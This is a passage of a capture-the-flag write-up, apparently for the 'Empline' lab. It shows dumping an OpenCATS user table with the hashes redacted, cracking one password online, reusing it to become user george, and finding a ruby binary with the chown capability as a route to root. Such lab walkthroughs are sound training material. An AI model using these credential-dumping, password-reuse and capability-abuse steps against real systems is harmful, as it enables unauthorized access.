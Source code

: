 We are only interested into the `username`, `email`, `password`, and it's also good to know their `access level`. So let's fetch that. (I REDACTED the password hashes)

````commandline
MariaDB [opencats]> select user_name, email, password, access_level from user;
+----------------+----------------------+----------------------------------+--------------+
| user_name      | email                | password                         | access_level |
+----------------+----------------------+----------------------------------+--------------+
| admin          | admin@testdomain.com | REDACTED                         |          500 |
| cats@rootadmin | 0                    | cantlogin                        |            0 |
| george         |                      | REDACTED                         |          400 |
| james          |                      | REDACTED                         |          200 |
+----------------+----------------------+----------------------------------+--------------+
4 rows in set (0.00 sec)

MariaDB [opencats]>
````

Looking up on [CrackStation](https://crackstation.net) with these hashes we got from the `MySQL` table `user`, and we get the password of user `george`. For the other users we could not get the password. Did not take the time to crack these other user accounts with `john` or `hashcat` or whatever other tool. I god food, so let's consume it.

````commandline
george:REDACTED
````

As credentials reuse is very common, and like in this case it is, we can now log in with user `george` and grab the `user.txt` flag.

````commandline
www-data@empline:/var/www$ su george
Password: 
george@empline:/var/www$ cd 
george@empline:~$ ls
user.txt
george@empline:~$ cat user.txt 
91*****70aa2e5ce0e0116dab*****8e
````

## Vertical privilege escalation

This user `george` has no `sudo` rights, no `crontab` and no `SUID` bits found.

However, we can get the capabilities of the user with `getcap`. Which reveals something interesting about `ruby` which has `chown` capabilities with superuser rights. Reading the `man capabilities` (or the [online version](https://man7.org/linux/man-pages/man7/capabilities.7.html)) will give us nice information.

````commandline
$ getcap -r / 2>/dev/null
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/local/bin/ruby = cap_chown+ep
````

As I don't know anything about `Ruby` actually, I had to do a bit of research about "ruby one liner" on Google. On how to execute a `Ruby` command onto one line if you want, like this is possible with `Python` and many other language. This gave a few hints which I tried out, but it did not work like I expected. Well, the one-liners did work as expected, but I expected more, owning that `/etc/passwd` file which failed so far. I admit it that I did not do a lot of research about that.
